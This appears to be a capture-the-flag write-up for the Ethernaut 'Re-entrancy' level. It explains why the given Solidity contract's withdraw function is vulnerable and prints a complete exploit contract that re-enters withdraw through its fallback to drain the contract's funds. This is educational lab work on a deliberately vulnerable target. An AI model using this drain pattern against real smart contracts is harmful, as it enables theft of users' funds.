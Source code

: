 # Re-entrancy

>The goal of this level is for you to steal all the funds from the contract.

> Things that might help:
>
> * Untrusted contracts can execute code where you least expect it.
> * Fallback methods
> * Throw/revert bubbling
> * Sometimes the best way to attack a contract is with another contract.
> * See the "?" page above, section "Beyond the console"

```Solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```
Re-entrancy attacks are one of the most common attacks implemented by hackers. To understand it better, we must look at it in deep.

Re-entrancy attack allows untrusted malicious code to be executed repetitively inside the vulnerable contract. 
This happens when the vulnerable contract calls the malicious contract and the malious contract in turn calls the vulnerable contract again thus creating somewhat an infinite loop.

To goal of this level is to steal all the funds of the given contract.

On a quick analysis of the given contract, we can find the function of our interest i.e., the function vulnerable to reentrancy which is the `withdraw` function.

Inside the withdraw function, if the balance of the `msg.sender` is more than the amount then the contract sends ether to `msg.sender` by the call function.
Since the balance of `msg.sender` is only being updated after the transaction is made, this introduces a vulnerability in this function.

The basic scenario in a reentrancy attack can be represented by the following picture
![reentrancy](https://github.com/blueh4mster/Ethernaut-writeups/assets/102573660/19ebff63-facd-4c15-810a-7b9ec0d7c6bf)

The exploit contract for this level can be framed as follows

```solidity
contract exploit{
    Reentrance r;
    constructor(Reentrance addr) public {
        r = Reentrance(addr);
    }

    fallback() external payable {
        if (address(r).balance >= 0.001 ether) {
            r.withdraw(0.001 ether);
        }
    }

    function hack() public {
        r.donate{value : 0.001 ether}(address(this));
        r.withdraw(0.001 ether);
    }

    function withdrawAll() public {
        msg.sender.transfer(address(this).balance);
    }
}
```

We are well aware that `fallback` function is the function which is triggered when the contract receives some ether and has no `receive` function.

When the contract sends ether to the `msg.sender` (considered to be another exploit contract in this scenario), the exploit contract's `fallback` function is triggered in which we make sure that if the amount is greater than 0.001 ether, we call the withdraw function again causing the balance of `msg.sender` to be updated only when the loop breaks i.e., when all the funds have been transferred to the exploit contract.

Now, we deploy the above contract with 0.001 ether as funds, and then we call the `hack` function and then the `withdrawAll` function (optional). We can confirm that the balance of the `Reentrance` contract is now reduced to 0 through the browser's console.

(The above contract may be deployed in remix using Injected Web3.0 Provider MetaMask.)

Image source : [Reentrancy Attack](https://www.google.com/url?sa=i&url=https%3A%2F%2Fwww.geeksforgeeks.org%2Freentrancy-attack-in-smart-contracts%2F&psig=AOvVaw3a6TVpUEB80BE6EDq-PSRg&ust=1697094678092000&source=images&cd=vfe&opi=89978449&ved=0CBMQjhxqFwoTCOjCntzu7IEDFQAAAAAdAAAAABAE)
